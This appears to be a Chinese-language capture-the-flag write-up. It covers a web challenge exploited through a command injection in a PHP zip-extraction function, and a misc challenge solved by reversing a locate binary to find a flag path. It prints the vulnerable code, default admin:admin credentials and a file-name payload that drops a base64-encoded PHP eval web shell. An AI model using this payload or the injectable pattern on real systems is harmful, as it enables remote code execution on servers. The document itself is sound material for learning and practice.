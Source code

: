 ## Web
### d3cloud
访问/admin后台 admin:admin登录管理员账号
在侧边栏有文件管理，可以上传zip包，同时下载文件`FilesystemAdapter.php`
对文件进行代码审计后,在这里的解压存在命令注入

```php
public function putFileAs($path, $file, $name, $options = [])
    {
        $supported_file = array('gif','jpg','jpeg','png','ico','zip','mp4','mp3','mkv','avi','txt');
        $file_type= strtolower(pathinfo($name,PATHINFO_EXTENSION));
        if (!in_array($file_type, $supported_file)) {
            return false;
        }
        $stream = fopen($file->getRealPath(), 'r+');
        $result = $this->put(
            $path = trim($path.'/'.$name, '/'), $stream, $options
        );
        if (is_resource($stream)) {
            fclose($stream);
        }
        if($file->getClientOriginalExtension() === "zip") {
            $fs = popen("unzip -oq ". $this->driver->getAdapter()->getPathPrefix() . $name ." -d " . $this->driver->getAdapter()->getPathPrefix(),"w");
            pclose($fs);
        }
        return $result ? $path : false;
    }
```

`1.zip || echo PD9waHAgZXZhbCgkX1JFUVVFU1RbInd1d3Vtb25zdGVyIl0pO3BocGluZm8oKTs= | base64 -d > shell.php # .zip`

![](attachments/Pasted%20image%2020230506152056.png)


直接访问shell.php

![](attachments/Pasted%20image%2020230506152206.png)


## Misc
### d3readfile
在一个日志文件里面发现了有下载locate的历史记录，后面把locate拖出来做逆向

![](attachments/Pasted%20image%2020230503132422.png)

读取对应路径后发现

![](attachments/Pasted%20image%2020230503133013.png)

去除！后 `/opt/vwMDP4unF4cvqHrztduv4hpCw9H9Sdfh/UuRez4TstSQEXZpK74VoKWQc2KBubVZi/LcXAfeaD2KLrV8zBpuPdgsbVpGqLcykz/flag_1s_h3re_233`

![](attachments/Pasted%20image%2020230503133245.png)

